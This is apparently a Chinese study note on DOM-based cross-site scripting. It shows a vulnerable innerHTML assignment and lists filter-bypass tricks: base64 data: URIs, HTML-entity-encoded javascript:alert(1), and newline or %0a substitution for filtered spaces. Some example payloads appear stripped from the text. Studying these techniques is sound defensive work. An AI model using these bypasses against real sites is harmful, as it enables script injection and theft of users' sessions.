	var results = document.getElementById('results');
	results.innerHTML = 'You searched for: ' + search;

如果攻击者能够控制输入数据，就能够构造恶意的代码，触发脚本执行：

	You searched for: 

常用的例子中，输入数据常常是HTTP请求的一部分，例如URL搜索字符串的参数，允许攻击者发送恶意的URL，和反射型XSS一样的形式。

##可能存在的XSS注入点##
	1.（反射型和存储型）与后端有交互的点
		request method get post。。。
	2.（DOM型）HTML的元素出现的地方	

##可能的利用方法：
	1.data关键字，data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4=
	或者data:text/html;base64,amF2YXNjcmlwdDphbGVydCgieHNzIik=
	以上语句和  或者javascript:alert("xss") 的作用是一样的。
	2.javascript:alert(1)关键字被识别过滤，要绕过的话，可以采用unicode转ASCII码，变成&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
	3.href="javascript:alert(1)//aadfsfsdf"  这样的形式也是正常弹框的，javascript:alert(1)这句用上述的ASCII码编码也是一样执行的。
	4.当innerHTML的位置中想要填入
	 但是该输入中的空格被过滤了，变成了&nbsp;表示不间隔的空格，这时候可以用回车实现，，效果如下：
	
	其中，若回车符号/被过滤了，可以用URL编码%0a代替